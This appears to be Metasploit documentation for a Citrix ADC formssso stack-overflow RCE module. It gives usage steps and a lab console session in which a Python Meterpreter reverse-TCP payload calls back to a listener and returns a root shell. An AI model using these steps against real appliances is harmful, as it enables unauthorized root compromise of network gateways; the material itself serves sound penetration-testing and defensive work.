 ## Vulnerable Application

A vulnerability exists within Citrix ADC that allows an unauthenticated attacker to trigger a stack buffer overflow of
the nsppe process by making a specially crafted HTTP GET request. Successful exploitation results in remote code
execution as root.

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/freebsd/http/citrix_formssso_target_rce`
4. Set the `RHOST`, `PAYLOAD` and payload-related options
5. Do: `run`
6. You should get a shell.

## Options

## Scenarios
Specific demo of using the module that might be useful in a real world scenario.

### Citrix ADC 13.1-48.47

NetScaler VPX instance for VMware ESX from `NSVPX-ESX-13.1-48.47_nc_64`.

```
msf exploit(freebsd/http/citrix_formssso_target_rce) > show options 

Module options (exploit/freebsd/http/citrix_formssso_target_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.159.130  yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      443              yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/python/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.159.128  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Citrix ADC 13.1-48.47



View the full module info with the info, or info -d command.

msf exploit(freebsd/http/citrix_formssso_target_rce) > run

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Sending stage (24768 bytes) to 192.168.159.30
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 192.168.159.30:36429) at 2023-07-31 17:34:18 -0400

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : cirtrix
OS           : FreeBSD 11.4-NETSCALER-13.1 FreeBSD 11.4-NETSCALER-13.1 #0 2596b10c4(rs_131_48_41_RTM): Sat Jun  3 00:57:48 PDT 2023     root@sjc-bld-bsd114-232:/usr/obj/usr/home/build/adc/usr.src/sys/NS64
Architecture : x64
Meterpreter  : python/freebsd
meterpreter > pwd
/
meterpreter > 
```
